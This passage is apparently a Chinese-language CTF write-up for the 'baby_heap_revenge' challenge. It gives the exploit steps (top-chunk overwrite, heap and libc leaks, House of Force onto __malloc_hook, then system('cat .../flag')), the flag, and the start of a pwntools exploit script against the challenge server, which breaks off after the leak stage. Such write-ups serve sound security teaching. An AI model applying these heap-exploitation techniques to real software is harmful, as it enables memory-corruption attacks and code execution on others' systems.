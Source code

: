 3. 第三次`malloc()`，取得指向原本在unsorted bin中的chunk的chunk，leak heap address

4. 第四次`malloc()`，在上一塊chunk下方再取得一塊chunk，leak main_arena address並算出libc base。

5. 第五次`malloc()`，利用the house of froce使新的top chunk指向`__malloc_hook - 0x10`，同時將`cat /home/baby_heap_revenge/flag`寫到heap上。

6. 第六次`malloc()`，size必須大於之前large bin剩下的chunk size，控制`__malloc_hook`並寫為`system()`

7. 第七次`malloc()`，將之前寫的string address作為size，觸發`__malloc_hook`執行`system("cat /home/baby_heap_revenge/flag")`


### flag
```
FLAG{YOUARENOTBABYATALL}
```
### script
```python
#!/usr/bin/env python3
from pwn import *

context(arch="amd64", terminal=["tmux", "neww"])

#r = process("baby_heap_revenge")
r = remote("csie.ctf.tw", 10141)
libc = ELF("libc.so.6")

def send(s):
    r.recvuntil(":")
    r.send(s)

def allocate(size, data):
    send("1")
    send(str(size))
    send(data)

def show():
    send("2")

def leak():
    show()
    r.recvuntil('ADDRESS:')
    return u64(r.recvuntil('\n', drop=True).ljust(8, b'\x00'))

# 1. overwrite the size of top chunk to a small value
#    to trigger _int_free() in sysmalloc(), we will
#    get a unsorted bin chunk, also overwrite the new top
PREV_INUSED = 1
TOP_SIZE = 0x20fe0
PAGESIZE = 0x1000
SMALL_TOP_SIZE = TOP_SIZE & (PAGESIZE - 1)
allocate(0x18, b'a' * 0x18 + p64(SMALL_TOP_SIZE | PREV_INUSED))
LARGE_TOP_SIZE = 0xffffffffffffffff
allocate(SMALL_TOP_SIZE + 0x8, b'b' * (SMALL_TOP_SIZE + 0x8) + p64(LARGE_TOP_SIZE))

# 2. Using the unsorted bin chunk to leak address of heap.
#    Also, there is address of main_arena on the heap, it
#    can be used to compute libc address
allocate(0x20, b'c' * 0x8 + b'ADDRESS:')
heap_addr = leak()
top_addr = heap_addr + 0x21fd0
allocate(0x10, b'ADDRESS:')
arena_addr = leak()
libc_base = arena_addr - 0x3c4b78
```